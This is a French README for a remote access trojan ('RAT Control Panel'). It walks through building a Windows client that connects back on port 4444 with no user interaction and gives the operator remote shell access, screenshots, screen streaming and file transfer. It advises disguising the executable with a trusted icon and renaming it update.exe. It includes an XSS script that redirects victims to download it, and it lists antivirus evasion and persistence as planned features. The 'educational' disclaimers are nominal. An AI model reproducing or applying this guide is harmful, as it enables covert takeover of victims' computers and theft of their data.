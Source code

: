 🐀 RAT Control Panel

Bienvenue dans RAT Control Panel, un outil éducatif de Remote Administration Tool (RAT) conçu pour les environnements de test de sécurité, les compétitions CTF, ou les laboratoires d'apprentissage. Ce projet fournit un serveur, un client, et une interface graphique intuitive pour exécuter des commandes à distance, capturer des écrans, diffuser en temps réel, et plus encore, avec une touche de discrétion grâce à la personnalisation des icônes.

⚠️ Avertissement : Cet outil est destiné à un usage éthique et autorisé uniquement. L'utilisation non autorisée est illégale. Veillez à respecter les lois et à obtenir un consentement explicite avant tout déploiement.


✨ Fonctionnalités

Exécution de commandes à distance : Lancez des commandes shell sur le client (ex. whoami, dir).
Capture d'écran : Prenez des instantanés de l'écran du client, enregistrés en JPEG.
Streaming en temps réel : Diffusez l'écran du client avec un faible décalage (10 FPS).
Transfert de fichiers : Téléchargez ou envoyez des fichiers entre le serveur et le client.
Chiffrement sécurisé : Toutes les communications sont chiffrées avec cryptography (Fernet).
Interface graphique : Une UI conviviale (tkinter) pour démarrer le serveur, configurer l'IP, et compiler le client.
Personnalisation discrète : Compilez le client avec une icône personnalisée (à partir de .png) pour plus de discrétion.
Connexion automatique : Le client se connecte directement au serveur sans interaction utilisateur.


🛠️ Prérequis
Avant de commencer, assurez-vous d'avoir :



Prérequis
Description



Python 3.8+
Téléchargez depuis python.org.


Système d'exploitation
Windows (client et serveur nécessitent un environnement graphique).


Réseau
Port 4444 ouvert sur le serveur, avec port forwarding si nécessaire.


Image .png
Une icône (32x32 ou 64x64 pixels) pour personnaliser l'exécutable du client.



📦 Installation
Suivez ces étapes pour configurer le projet :

Cloner le projet (ou téléchargez les fichiers) :
```bash
git clone https://github.com/Toragp28/ratatouille-beta.git
```

Installer les dépendances :Exécutez la commande suivante pour installer toutes les bibliothèques nécessaires :
```bash
pip install Pillow opencv-python cryptography pyinstaller
```

💡 tkinter est inclus avec Python. Si vous rencontrez des erreurs, vérifiez votre installation Python.


Préparer les fichiers :

Placez ui.py, server.py, et client.py dans le même dossier.
Obtenez une image .png pour l'icône (par exemple, téléchargez depuis IconArchive ou créez-en une avec GIMP).


Configurer le réseau :

Ouvrez le port 4444 sur le serveur :
```bash
netsh advfirewall firewall add rule name="RAT" dir=in action=allow protocol=TCP localport=4444
```

Si vous utilisez une IP publique, configurez le port forwarding sur votre routeur.




🚀 Utilisation
1. Lancer l'interface graphique
Exécutez l'interface pour configurer et contrôler le RAT :
```bash
python ui.py
```
L'interface affiche :

Un champ pour entrer l'adresse IP du serveur.
Un bouton pour démarrer le serveur.
Un bouton pour importer une icône (.png).
Un bouton pour compiler le client.
Une zone de logs pour suivre les actions.

2. Démarrer le serveur

Cliquez sur "Démarrer le serveur" dans l'interface.
Les logs affichent :
```bash
Serveur démarré sur 0.0.0.0:4444
Adresses IP locales : 192.168.1.100, ...
```

Notez l'IP affichée (par exemple, 192.168.1.100) pour l'étape suivante.

3. Configurer l'adresse IP

Dans le champ Adresse IP du serveur, entrez l'IP notée (par exemple, 192.168.1.100).
Si vous utilisez une IP publique, assurez-vous que le port 4444 est accessible.

4. Importer une icône

Cliquez sur "Importer une icône (.png)".
Sélectionnez un fichier .png (idéalement 32x32 ou 64x64 pixels).
L'interface convertit automatiquement le .png en .ico et affiche :
```bash
Icône importée et convertie : edge.png -> temp_icon.ico
```



💡 Utilisez une icône légitime (par exemple, Microsoft Edge, Word) pour rendre l'exécutable discret.

5. Compiler le client

Cliquez sur "Compiler le client".
L'interface :
Met à jour client.py avec l'IP saisie.
Compile client.py en dist/client.exe avec PyInstaller, en utilisant l'icône importée.
Supprime le fichier .ico temporaire.


Les logs confirment :
```bash
client.py modifié avec SERVER_HOST = 192.168.1.100
Compilation réussie. Exécutable généré dans dist/client.exe
```


6. Tester le client

Copiez dist/client.exe sur un PC client (Windows avec interface graphique).
Exécutez :
```bash
client.exe
```

L'exécutable affiche l'icône personnalisée et se connecte automatiquement au serveur.
Sur le serveur, entrez des commandes dans la console (ouverte automatiquement) :
```bash
whoami
screenshot
stream
```

screenshot : Enregistre received_screenshot.jpg.
stream : Affiche l'écran du client en temps réel (appuyez sur q pour arrêter).



7. Déploiement via XSS (optionnel)
Pour distribuer client.exe via une vulnérabilité XSS (dans un cadre éthique) :

Hébergez client.exe :
```bash
python -m http.server 8080
```
```bash
Injectez via XSS :<script>
    window.location = 'http://votre-serveur:8080/client.exe';
</script>
```

L'icône personnalisée rend l'exécutable plus convaincant (par exemple, renommez-le update.exe).


⚠️ Restez dans un cadre légal (CTF, bug bounty). L'utilisation non autorisée est illégale.


📋 Exemple de logs dans l'UI
```bash
Thu May 15 17:00:00 2025: Démarrage du serveur...
Thu May 15 17:00:01 2025: Serveur démarré sur 0.0.0.0:4444
Thu May 15 17:00:05 2025: Connexion de 192.168.1.98:54321
Thu May 15 17:00:10 2025: Icône importée et convertie : edge.png -> temp_icon.ico
Thu May 15 17:00:15 2025: client.py modifié avec SERVER_HOST = 192.168.1.100
Thu May 15 17:00:20 2025: Compilation réussie. Exécutable généré dans dist/client.exe
```

🐞 Dépannage



Problème                                                                    Solution



Serveur ne démarre pas                      |  Vérifiez que server.py est dans le dossier. Installez les dépendances : pip install Pillow opencv-python cryptography.


Client ne se connecte pas                    |      Vérifiez l'IP saisie. Testez : ping 192.168.1.100 et nc -zv 192.168.1.100 4444.


Icône non appliquée                           |      Assurez-vous d'importer un .png valide. Testez : python -c "from PIL import Image; Image.open('edge.png').show()".


Compilation échoue                             |    Installez PyInstaller : pip install pyinstaller. Vérifiez les logs pour l'erreur.


Streaming/screenshot échoue                     |   Exécutez le client sur un bureau Windows. Testez : python -c "from PIL import ImageGrab; ImageGrab.grab()".



⚖️ Considérations éthiques

Usage autorisé uniquement : Utilisez ce RAT dans des environnements contrôlés (CTF, labs de sécurité).
Légalité : Déployer un RAT sans consentement est illégal. Obtenez toujours une autorisation explicite.
Responsabilité : Signalez les vulnérabilités XSS de manière éthique via des programmes de bug bounty.


🌟 Améliorations futures

Ajouter un bouton pour arrêter le serveur depuis l'UI.
Implémenter l'obfuscation du client avec pyarmor pour éviter la détection antivirus.
Ajouter la persistance (exécution au démarrage) dans l'exécutable client.
Supporter d'autres formats d'image (.jpg, .bmp) pour les icônes.


🙏 Crédits
Développé avec ❤️ pour l'apprentissage de la cybersécurité. Merci à la communauté open-source pour les bibliothèques utilisées :

Pillow
OpenCV
Cryptography
PyInstaller


📧 se programe était super amusent et laide de l'ia a était agréable bisous 

